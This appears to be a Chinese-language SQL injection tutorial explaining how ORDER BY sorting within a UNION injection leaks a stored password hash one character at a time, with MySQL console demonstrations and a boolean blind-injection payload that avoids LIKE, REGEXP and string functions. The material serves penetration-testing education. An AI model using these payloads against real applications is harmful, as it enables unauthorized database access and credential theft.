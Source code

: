 order by  n 的主要作用就是让查询出来的数据根据**第n列**进行排序（默认升序），我们可以**使用order by排序比较字符的 ascii 码大小，从第⼀位开始比较，第⼀位相同时比较下⼀位**。

利用方式参见如下测试：

```plain
mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 5                                |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 6                                |
+----+----------+----------------------------------+
2 rows in set (0.01 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'51' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 51                               |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'52' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 52                               |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

通过逐位判断便可得到`password`

这种方法运用的情况比较极端一些，如布尔盲注时，字符截取/比较限制很严格。例子：

```plain
select * from users where (select 'r' union select user() order by 1 limit 1)='r'
```

实际上此处是利用了`order by`语句的排序功能来进行判断的。若我们想要查询的数据开头的首字母在字母表的位值比我们判断的值要靠后，则`limit`语句将不会让其输出，那么整个条件将会成立，否之不成立。

利用这种方法可以做到不需要使用`like、rlike、regexp`等匹配语句以及字符操作函数。
